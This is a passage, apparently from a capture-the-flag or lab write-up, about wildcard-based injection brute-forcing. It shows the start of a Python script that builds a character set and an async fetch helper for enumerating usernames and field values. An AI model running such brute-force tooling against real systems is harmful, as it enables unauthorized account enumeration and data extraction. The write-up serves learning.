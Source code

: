 ![Double wildcard fails](/assets/images/Analysis/double_wildcard_fails.png)

But if I put a wildcard before some letters and after the letters there is a wildcard, the first wildcard will be treated as a string and not as a wildcard. So I will modify the script to include the function above and the one to bruteforce fields and to select from the terminal which to use with sys.argv. Also, I will replace in the chars '(', ')', '&' and '#' with nothing assuming there aren't those characters in the field names:

```python
#!/usr/bin/python3
import string, requests
import pdb, sys
import signal
import aiohttp
import asyncio
from pwn import *

# Handle ctrl+c
def def_handler(sig,frame):
    print("\n\n[-] Exiting...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Global variables
chars = string.ascii_letters + string.digits + string.punctuation
chars = chars.replace(')', '').replace('(', '').replace('&', '').replace('#', '')

# Function to fetch a url and return a response

async def fetch(session, url, retries=3):
    for attempt in range(retries):
        try:
            async with session.get(url) as response:
                return await response.text()
        except (aiohttp.ClientOSError, aiohttp.ClientConnectionError, asyncio.TimeoutError) as e:
                if attempt < retries - 1:
                    await asyncio.sleep(2 ** attempt)  # Exponential backoff
                else:
                    print(f"Failed to fetch {url}: {e}")
                    return None

# Function to brute valid usernames
async def bruteUsernames():
    chars = string.ascii_lowercase + string.digits
```